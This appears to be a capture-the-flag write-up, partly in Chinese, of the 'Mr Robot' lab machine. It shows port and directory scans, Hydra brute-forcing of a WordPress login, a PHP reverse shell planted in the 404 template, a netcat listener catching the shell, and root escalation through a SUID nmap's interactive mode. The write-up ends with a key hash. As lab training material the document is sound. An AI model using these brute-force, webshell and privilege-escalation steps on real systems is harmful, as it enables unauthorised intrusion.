


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 5000 10.10.50.16                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 04:29 EST
Nmap scan report for 10.10.50.16
Host is up (0.54s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,80,443 10.10.50.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 04:31 EST
Nmap scan report for 10.10.50.16
Host is up (0.46s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-title: 400 Bad Request
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 5.X|3.X|4.X|2.6.X (90%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 5.4 (90%), Linux 3.10 - 3.13 (89%), Linux 3.10 - 4.11 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%), Linux 3.12 (87%), Linux 3.13 (87%), Linux 3.2 - 3.5 (87%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.49 seconds

```

## web examing
直接robots.txt就出来一个key了

然后给了一个dic文件
难道是字典？？
拿来扫一下

## gobuster目录探测
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.50.16 -q -o dirbscan-gobuster-smalldirb.txt
[sudo] kali 的密码：
/images               (Status: 301) [Size: 234] [--> http://10.10.50.16/images/]
/blog                 (Status: 301) [Size: 232] [--> http://10.10.50.16/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.50.16/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.50.16/wp-login.php]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.50.16/feed/]
/0                    (Status: 301) [Size: 0] [--> http://10.10.50.16/0/]
/video                (Status: 301) [Size: 233] [--> http://10.10.50.16/video/]
/image                (Status: 301) [Size: 0] [--> http://10.10.50.16/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.50.16/feed/atom/]
/wp-content           (Status: 301) [Size: 238] [--> http://10.10.50.16/wp-content/]
/admin                (Status: 301) [Size: 233] [--> http://10.10.50.16/admin/]
/audio                (Status: 301) [Size: 233] [--> http://10.10.50.16/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2657]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.50.16/feed/]
/css                  (Status: 301) [Size: 231] [--> http://10.10.50.16/css/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 239] [--> http://10.10.50.16/wp-includes/]
/js                   (Status: 301) [Size: 230] [--> http://10.10.50.16/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.50.16/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.50.16/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.50.16/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.50.16/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.50.16/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.50.16/0000/]
/phpmyadmin           (Status: 403) [Size: 94]
/xmlrpc               (Status: 405) [Size: 42]
```
看了readme和intro等页面，没什么有价值的信息
但是扫到了wp-login

## hydra webform

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo hydra -L ~/Downloads/fsocity.dic -p test 10.10.50.16 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30                
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-03 06:39:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.50.16:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.50.16   login: Elliot   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
                                                                
```
发现用户Elliot
爆破密码
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo hydra -l Elliot -P ~/Downloads/fsocity.dic 10.10.50.16 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-03 06:48:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:1/p:858235), ~28608 tries per task
[DATA] attacking http-post-form://10.10.50.16:80/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username
[STATUS] 548.00 tries/min, 548 tries in 00:01h, 857687 to do in 26:06h, 30 active
[STATUS] 629.00 tries/min, 1887 tries in 00:03h, 856348 to do in 22:42h, 30 active
[STATUS] 691.57 tries/min, 4841 tries in 00:07h, 853394 to do in 20:34h, 30 active


```
这里爆破的速度非常慢

## php reverse shell

在404.php添加reverseshell

404php的作用就是当没有找到目录文件时加载404这个php
那么执行404的同时
reverseshell就回来了


## 第一个立足点shell

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nc -lvnp 53   
listening on [any] 53 ...
connect to [10.17.9.68] from (UNKNOWN) [10.10.50.16] 34150
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:21:35 up  3:25,  0 users,  load average: 0.01, 1.08, 1.53
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```


## LPE

```bash
robot@linux:~$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key*
cat key*
04787ddef27c3dee1ee161b21670b4e4

```
